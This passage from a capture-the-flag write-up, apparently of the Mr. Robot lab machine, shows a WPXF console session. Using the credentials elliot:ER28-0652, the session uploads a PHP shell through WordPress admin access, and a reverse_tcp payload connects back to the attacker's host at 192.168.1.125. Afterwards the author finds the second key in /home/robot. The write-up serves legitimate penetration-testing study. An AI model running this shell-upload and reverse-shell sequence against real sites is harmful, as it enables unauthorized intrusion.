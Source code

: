 ```
wpxf > use exploit/admin_shell_upload

  [+] Loaded module: #<Wpxf::Exploit::AdminShellUpload:0x00000001dbdac0>

wpxf [exploit/admin_shell_upload] > set username elliot

  [+] Set username => elliot

wpxf [exploit/admin_shell_upload] > set password ER28-0652

  [+] Set password => ER28-0652

wpxf [exploit/admin_shell_upload] > set host 192.168.1.100

  [+] Set host => 192.168.1.100

wpxf [exploit/admin_shell_upload] > set check_wordpress_and_online 0

  [+] Set check_wordpress_and_online => false

wpxf [exploit/admin_shell_upload] > set payload reverse_tcp

  [+] Loaded payload: #<Wpxf::Payloads::ReverseTcp:0x000000026e1480>

wpxf [exploit/admin_shell_upload] > set lhost 192.168.1.125

  [+] Set lhost => 192.168.1.125

wpxf [exploit/admin_shell_upload] > run

  [+] Started reverse TCP handler on 1234
  [-] Authenticating with WordPress using elliot:ER28-0652...
  [-] Uploading payload...
  [-] Executing the payload at
      http://192.168.1.100/wp-content/plugins/APpvtKwifA/laxCohTIyC.php...
  [+] Connection established from 192.168.1.100:60422

Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 23:30:39 up 15 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$

```

At this point, I spent a lot of time fishing around the htdocs directory, but found nothing. So I headed to the`/home/` directory, where there was a single home directory for a user named `robot`; which included the second key!

